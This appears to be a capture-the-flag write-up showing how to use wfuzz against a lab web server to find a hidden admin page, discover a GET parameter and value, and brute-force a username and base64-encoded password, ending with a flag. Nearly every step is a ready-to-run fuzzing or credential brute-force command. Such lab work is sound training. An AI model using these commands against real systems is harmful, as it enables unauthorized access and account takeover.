

# Web Fuzzing with `wfuzz`

1. Install `wfuzz`

   ```bash
   yay -S wfuzz-git
   ```

2. Find the administration `php` page

   ```bash
   wfuzz -w /usr/share/wfuzz/wordlists/general/common.txt --hc 404 http://10.192.72.221:7000/FUZZ.php
   ```

   

   - The admin page is located at http://10.192.72.221:7000/private.php

     

3. The administration page access is restricted. Use the fuzzer to bypass the restriction

   ```bash
   wfuzz -w /usr/share/wfuzz/wordlists/general/medium.txt --hh BBB http://10.192.72.221:7000/private.php\?FUZZ{notthis}
   ```

   - `\` to escape this fucker `?`
   - `{notthis}`used for the baseline

   

   - The GET parameter is `id`

4. Find the value for the GET parameter

   ```bash 
   wfuzz -z range,0-9999 --hc 200 http://10.192.72.221:7000/private.php\?id=FUZZ
   ```

   

   - The value for the `id` GET parameter is 2600

     - Going to http://10.192.72.221:7000/private.php?id=2600 redirects us to PAGS

       

5. Bruteforce the username

   ```bash
   wfuzz -w /usr/share/wfuzz/wordlists/others/names.txt --hs "wrong username" -d "username=FUZZ&password=" http://10.192.72.221:7000/pags/
   ```

   

   - The username is Josephine

6. Bruteforce the password (it has to be base64 encoded)

   ```bash
   wfuzz -z file,/usr/share/wfuzz/wordlists/others/common_pass.txt,base64 --hs "Wrong password" -d "username=Josephine&password=FUZZ" http://10.192.72.221:7000/pags/
   ```

   

   - Decoding the base64, gives us Josephine's password `veritas`, however to log into PAGS, we need to pass the base64

     

   Flag: SEC{fU224s3C}